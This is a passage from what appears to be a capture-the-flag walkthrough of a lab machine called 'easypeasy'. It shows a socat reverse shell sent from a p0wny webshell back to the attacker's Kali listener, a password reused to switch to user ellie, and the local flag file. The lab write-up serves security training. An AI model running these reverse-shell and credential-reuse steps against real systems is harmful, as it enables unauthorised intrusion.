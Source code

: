 Now on our kali box we stop the python listener and start socat

```
└─$ socat file:`tty`,raw,echo=0 tcp-listen:3000
```

And from the webshell we send the reverse shell

```
p0wny@shell:/dev/shm# ./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:172.16.118.132:3000
```

Back on our Kali we got our shell

```
└─$ socat file:`tty`,raw,echo=0 tcp-listen:3000
www-data@easypeasy:/dev/shm$ ls
socat
www-data@easypeasy:/dev/shm$ whoami
www-data
www-data@easypeasy:/dev/shm$ 
```

Now we go to see the users and we see ellie and norman:

```
www-data@easypeasy:/home$ ls -la
total 20
drwxr-xr-x  5 root   root   4096 Nov 18 01:37 .
drwxr-xr-x 20 root   root   4096 Nov  6 10:11 ..
drwxr--r--  2 ellie  ellie  4096 Nov 18 01:37 ellie
drwxr-xr-x  3 root   root   4096 Nov 18 01:36 norman
```

We can't get to the folder of `ellie`.

We can try to see if there is password re-use case. So we try `ellie:CharlesTreePokemon44`

```
www-data@easypeasy:/home$ su ellie
Password: 
$ id
uid=1002(ellie) gid=1002(ellie) groups=1002(ellie)
$ 
```

Indeed we get in as `ellie`. Now we go in the local folder and we get the flag of local.txt

```
$ cd ellie
$ ls -la
total 36
drwxr--r-- 5 ellie ellie 4096 Nov 18 09:14 .
drwxr-xr-x 5 root  root  4096 Nov 18 01:37 ..
lrwxrwxrwx 1 root  root     9 Nov 18 01:37 .bash_history -> /dev/null
-rw-r--r-- 1 ellie ellie  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 ellie ellie 3771 Feb 25  2020 .bashrc
drwxr-xr-x 4 ellie ellie 4096 Nov 18 09:14 .cache
drwx------ 4 ellie ellie 4096 Nov 18 09:14 .config
drwxr-xr-x 3 ellie ellie 4096 Nov 18 09:14 .local
-rw-r--r-- 1 ellie ellie   33 Nov 18 01:37 local.txt
-rw-r--r-- 1 ellie ellie  807 Feb 25  2020 .profile
$ wc -c local.txt
33 local.txt
$ 
```
